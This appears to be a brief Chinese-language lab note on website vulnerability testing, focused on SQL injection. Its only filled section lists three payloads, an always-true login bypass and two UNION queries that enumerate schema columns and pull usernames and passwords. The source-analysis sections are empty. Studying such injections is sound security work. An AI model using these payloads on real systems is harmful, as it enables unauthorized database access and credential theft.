


# 網站漏洞測試(2).Sql injection

## 正常功能

## SQLi攻擊  == > 
- 1' or '111'='111
- %' UNION SELECT table_name,column_name FROM information_schema.columns
- %' UNION SELECT user, password FROM users

## 原始碼分析 1

## 原始碼分析 2

